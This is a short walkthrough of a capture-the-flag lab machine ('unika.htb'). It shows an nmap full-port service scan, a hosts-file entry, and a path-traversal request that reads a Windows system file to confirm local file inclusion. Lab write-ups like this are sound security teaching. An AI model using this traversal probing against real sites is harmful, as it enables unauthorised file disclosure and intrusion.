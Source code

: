 1. **Scan all the ports (0-65535) and determine service and version of open ports sending 5000 packets per second to speed up the scan**
```bash
nmap -sV -p- --min-rate 5000 [target ip]
```
--> port 80/tcp - open - http - Apache
--> port 5985/tcp - open - http - Microsoft HTTPAPI


2. **Resolve the hostname into an IP address**
```bash
echo "[target ip]   unika.htb" | sudo tee -a /etc/hosts
```


3. **Visit the website and try if there is a File Inclusion Vulnerability**
```bash
http://unika.htb/index.php page=../../../../../../../../windows/system32/drivers/etc/hosts
```
--> We can see that we can do a Local File Inclusion